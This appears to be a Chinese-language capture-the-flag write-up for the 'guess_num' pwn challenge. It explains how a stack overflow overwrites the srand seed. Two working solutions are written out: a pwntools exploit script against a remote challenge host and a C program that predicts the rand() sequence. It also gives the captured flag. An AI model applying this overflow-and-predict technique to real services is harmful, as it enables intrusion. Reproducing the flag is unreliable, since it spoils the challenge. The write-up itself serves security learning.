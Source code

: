 # wp
checksec 查看一下。保护得比较全面。

![pwn_50_guess_num.md1](pwn_50_guess_num.md1.jpg)



srand相关知识 https://blog.csdn.net/qq_41199502/article/details/80726780

 具体实现：  

1. 通过垃圾字符覆盖var_30到seed：“a” * 0x20
2. 使用p64()把1按照64位的方式进行排列产生随机数
3. 调用srand()生成随机数
4. 利用循环多次输入进行比较，直到相等。

通过ldd查找libc共享库， 这里python需要用到c语言的标准动态库
```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num 
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```




方法1

```python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

io = remote('124.126.19.106',50127)

payload = flat('a' * 0x20, p64(1))
io.sendlineafter('name', payload)
#get offset is 0x20,edit seed as 1
libc.srand(1)
for i in range(10):
    io.sendline(str(libc.rand() % 6 + 1))

io.interactive()
```

方法2

看seed的定义, 数组, unsigned int seed[2]， 在64位系统中  unsigned int : 4个字节

直接读 seed[0]会读4个字节。

我们使用多个a个进行覆盖。比如60个a。 seed处肯定是被覆盖的。

写个程序模拟一下随机数。linux下执行。

```c
int main() {
    srand(0x61616161);
    for (int i = 0; i < 10; i++) {
        int b = rand() % 6 + 1;
        printf("%d\n", b);
    }
    system("pause");
    return (0);
}
```
结果
```
5
6
4
6
6
2
3
6
2
2

```

nc 124.126.19.106 50127

输入大量的a覆盖seed，按上面的结果输入数字。

flag!cyberpeace{9336470fc366fde1fa64179b506eba53}

